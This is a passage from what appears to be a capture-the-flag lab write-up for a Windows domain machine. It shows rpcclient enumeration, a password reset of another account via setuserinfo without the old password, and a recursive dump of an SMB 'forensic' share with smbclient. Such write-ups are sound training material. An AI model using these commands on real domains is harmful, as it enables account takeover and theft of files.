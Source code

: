 ```
        user_rid :      0x586
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
```

I don't know if this will be useful later but we now known that `lydericlefebvre`
could be able to create VM. There was nothing special about the other accounts.

## Privilege Escalation of Machine : from support to audit2020

In case our account is privileged we can try to change other account password.
`chgpasswd` won't help us as it requires the old password. But `setuserinfo`
doesn't.

```
rpcclient $> setuserinfo
Usage: setuserinfo username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER
```

The **level** is defined from [USER_INFORMATION_CLASS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN).

```
rpcclient $> setuserinfo audit2020 23 cyfun123!

rpcclient $> setuserinfo svc_backup 23 cyfun123!
result: NT_STATUS_ACCESS_DENIED
result was NT_STATUS_ACCESS_DENIED

rpcclient $> setuserinfo lydericlefebvre 23 cyfun123!
result: NT_STATUS_ACCESS_DENIED
result was NT_STATUS_ACCESS_DENIED
```

## Privilege Escalation of Machine : from audit2020 to svc_backup

With support or unauthenticated we were not able to list the content of the
*forensic* share but we can with audit2020. So let's dump all we can:

```
$ mkdir -p Shares/forensic
$ cd Shares/forensic
$ smbclient //10.10.10.192/forensic -U audit2020 -W blackfield.local cyfun123!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 14:03:16 2020
  ..                                  D        0  Sun Feb 23 14:03:16 2020
  commands_output                     D        0  Sun Feb 23 19:14:37 2020
  memory_analysis                     D        0  Thu May 28 22:28:33 2020
  tools                               D        0  Sun Feb 23 14:39:08 2020

                7846143 blocks of size 4096. 4156574 blocks available
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```
